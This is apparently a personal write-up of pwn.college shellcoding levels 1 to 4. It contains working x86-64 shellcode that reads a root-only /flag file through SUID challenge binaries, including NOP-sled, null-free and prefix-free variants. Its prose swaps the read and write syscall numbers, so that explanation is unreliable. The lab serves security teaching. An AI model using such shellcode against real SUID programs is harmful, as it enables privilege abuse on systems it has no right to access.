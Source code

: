```yaml
---
title: "Notes of pwn.college babyshell&sandboxing levels"
date: "2022-01-16"
author: "uoft-flyfreejay"
description: "short notes for pwn.college dojo's shellcoding exercises"
---
```


# Intro

So, here we go with the shellcoding modules. 

In these challenges, my goals are to read the contents of the `/flag` file. That file is only readable as a root. We will have to inject shellcodes into the binaries located under each `/challenge` folder to read the `/flag` using the SUID of the challenge binary. Of course, to make things more interesting each challenge will have their own special constraints. Let's get hacking!

## babyshell

### level1

- Referece: https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/

The very first level. Running `ls -al` in the `/challenge` directory reveals that the binary in the folder has SUID bit set. Constructing the shellcode:

```python
import pwn
import time

pwn.context.arch = "amd64"
pwn.context.encoding = "latin"
pwn.context.log_level = "INFO"
pwn.warnings.simplefilter("ignore")

assembly = r'''
.global _start
.intel_syntax noprefix
_start:
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
'''

with pwn.process(f"/challenge/{pwn.os.getenv('HOSTNAME')}") as target:
    pwn.info(target.readrepeat(1))

    target.send(pwn.asm(assembly))
    pwn.info(target.readrepeat(1))
```

I wrapped the shellcode in python and used `pwntools` to send it to the binary. This code will be the default template for the future challenges. We use set `rax` to be 2 to open the `/flag`. We then store the returned FD into `rdi` and set `rax` to 0 to write to STDOUT. Lastly, we will set `rax` to 1 to read. 

### level2

This level has a new constraint. The program can skip upto 0x800 bytes from our shellcode. The hint was that we can use a simple 1 byte instruction to fill up the space, such as `nop`. This is called `nop sleding`. I will only post the shellcode from now.

```asm
.global _start
.intel_syntax noprefix
_start:
    .rept 0x800
    nop
    .endr
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    syscall
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 100
    mov rax, 0
    syscall
    mov rdi, 1
    mov rsi, rsp
    mov rdx, rax
    mov rax, 1
    syscall
    mov rax, 60
    syscall
flag:
    .ascii "/flag\0"
```

### level3

- Reference: https://www.youtube.com/watch?v=QYlJd_0hRmI&list=PL-ymxv0nOtqrx3u1ZH3J9keH1ZgK8wJXF&index=7

This level requires us not to have any `00` byte in our shellcode. Using `xor` trick to zero out the bits is the technique I used the most often. The hardest part was moving `/flag\0` characters into `rdi`. I referred to the office hour videos for that. What he did was building the string character by character in the stack. 

```asm
.global _start
.intel_syntax noprefix
_start:
    xor rax, rax
    mov al, 2
    mov byte ptr [rsp], '/'
    mov byte ptr [rsp+1], 'f'
    mov byte ptr [rsp+2], 'l'
    mov byte ptr [rsp+3], 'a'
    mov byte ptr [rsp+4], 'g'
    xor cl, cl
    mov byte ptr [rsp+5], cl
    mov rdi, rsp
    xor rsi, rsi
    syscall
    mov rdi, rax
    mov rsi, rsp
    xor rdx, rdx
    mov dl, 100
    xor rax, rax
    syscall
    xor rdi, rdi
    mov dil, 1
    mov rsi, rsp
    mov rdx, rax
    xor rax, rax
    mov al, 1
    syscall
    xor rax, rax
    mov al, 60
    syscall
```

# level4

- Credit: Thank you `connojd`!

This level requires me not to use any H-bytes, meaning no 64-bit operations. Well for the most parts, that's easy, we can just use 32-bit registers. However, carrying the `/flag\0` string around was the hardest part here. A nice fella on Discord helped me out greatly on this one. I just pushed necessary char bytes to the stack, and used `push rsp`, `pop REG` consecutively to imitate `mov REG, rsp`. Here `REG` is any 64-bit register you want. 

```
.global _start
.intel_syntax noprefix
_start:
    mov eax, 2
    mov cx, 0x0067
    push cx
    mov cx, 0x616c
    push cx
    mov cx, 0x662f
    push cx
    push rsp
    pop rdi
    mov esi, 0
    syscall
    mov edi, eax
    push rsp
    pop rsi
    mov edx, 100
    mov eax, 0
    syscall
    mov edi, 1
    push rsp
    pop rsi
    mov edx, eax
    mov eax, 1
    syscall
    mov eax, 60
    syscall
```

